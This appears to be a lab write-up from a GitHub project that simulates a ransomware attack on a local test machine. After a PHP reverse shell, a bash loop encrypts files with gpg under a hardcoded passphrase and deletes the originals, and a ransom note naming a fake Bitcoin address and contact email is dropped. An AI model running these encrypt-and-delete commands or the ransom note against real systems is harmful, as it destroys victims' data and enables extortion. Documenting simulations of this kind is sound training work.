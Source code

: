 ##  Ransomware Simulation (GPG Encryption)

This phase simulates a ransomware attack in which the attacker, after gaining reverse shell access, encrypts target files and demands a ransom.

###  Steps Performed:

1. **Reverse Shell Access**
   - Attacker (192.168.1.30) gained shell access on victim (192.168.1.33) via PHP reverse shell.

2. **Encryption Script Executed**
   - File names: `File1`, `File2`, `File3`
   - Tool: `gpg` (symmetric encryption)
   - Command used:

     ```bash
     gpg --batch --yes --passphrase "ransompass" -c FileX
     ```

   - Files were encrypted to `FileX.gpg` and originals deleted using a script:

     ```bash
     for f in File*; do
       gpg --batch --yes --passphrase "ransompass" -c "$f"
       rm "$f"
     done
     ```

3. **Result**
   - `.gpg` encrypted files created.
   - Original files no longer accessible.
   - Simulates a ransomware attack where only the attacker holds the decryption passphrase.

---

## 📄 Ransom Note Dropped

A ransom message was created on the victim's system:

```bash
echo "Your files have been encrypted. Send 1 BTC to 1FakeAddress. Contact attacker@darkmail.com to receive the decryption key." > README_RESTORE.txt


Files were encrypted from the attacker shell using root privileges.

Victim cannot access the original files unless they obtain the passphrase.

Decryption is possible using:

gpg --batch --yes --passphrase "ransompass" -o File1 -d File1.gpg

